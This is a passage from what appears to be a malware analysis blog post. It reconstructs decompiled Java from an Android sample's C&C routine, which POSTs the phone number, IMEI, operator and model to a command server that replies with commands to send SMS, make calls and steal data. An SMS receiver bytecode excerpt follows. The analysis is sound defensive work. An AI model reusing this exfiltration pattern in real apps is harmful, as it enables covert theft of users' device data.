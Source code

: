We can then rewrite the code in this way:

> ```java
>public JSONObject q(String paramString){
>	JSONObject jsonObj = null;
>	r localr = new r();
>	this.e.add(new BasicNameValuePair("method", this.r)); //the string given in the constructor
>	this.e.add(new BasicNameValuePair("id", this.w.getString("id", null))); //this.w: SharedPreferences
>	if (this.r.startsWith("install")) {
>		return localr.q(paramString, q.Q, q());
>	}
>	else if (this.r.startsWith("info") || this.r.startsWith(q.d)){
>		return localr.q(paramString, q.Q, this.e);
>	}
>	return jsonObj;
>}
> ```

knowing that
* `q.Q = "POST"` (decrypted)
* `q.d = "sms"` (decrypted),
* `r` is a class used to send HTTP request (which is consistent with `q.Q`)
* and finally, the list returned by `q()` contains these values (once decrypted):
> ```java
>public List q(){
>	this.e.add(new BasicNameValuePair("operator", o.o(q)));	//param q : Context
>	this.e.add(new BasicNameValuePair("model", Build.MODEL));
>	this.e.add(new BasicNameValuePair("os", Build.VERSION.RELEASE));
>	this.e.add(new BasicNameValuePair("phone", o.y(q)));
>	this.e.add(new BasicNameValuePair("imei" , o.t(q)));
>	this.e.add(new BasicNameValuePair("version", bo.w));
>	this.e.add(new BasicNameValuePair("country", o.w(q)));
>	return this.e;
>}
> ```

The routine `onPostExecute`, takes as parameter a `JSONObject` containg C&C server's response, and processes this response. This response contains commands, compared against
concatenated strings, based on decrypted ones listed above.
To conclude, we have here the way used by the malware to communicate with the C&C server. In `doInBackground`, the malware sends a query in order to know what to do, and the C&C server
answers with commands, asking the malware to send SMS, make calls, steal data, etc.

## SMS receiver

But that's not all! In the Manifest, a SMS receiver is registered (class `Ma`). Unfortunately, the routine `onReceive` was not properly decompiled, but I found these interesting lines:

> ```
>//   237: getfield 117	org/zxformat/Ma:e	Landroid/content/SharedPreferences;
>//   240: getstatic 31	org/zxformat/Ma:r	[Ljava/lang/String;
>//   243: iconst_1
>//   244: aaload
>//   245: aconst_null
>//   246: invokeinterface 192 3 0
>//   251: aastore
>//   252: invokevirtual 196	org/zxformat/v:execute	([Ljava/lang/Object;)Landroid/os/AsyncTask;
>//   255: pop
>//   256: iload 5
>//   258: ifne +104 -> 362
>//   261: aload_0
>//   262: aload_1
>//   263: invokespecial 198	org/zxformat/Ma:w	(Landroid/content/Context;)V
> ```
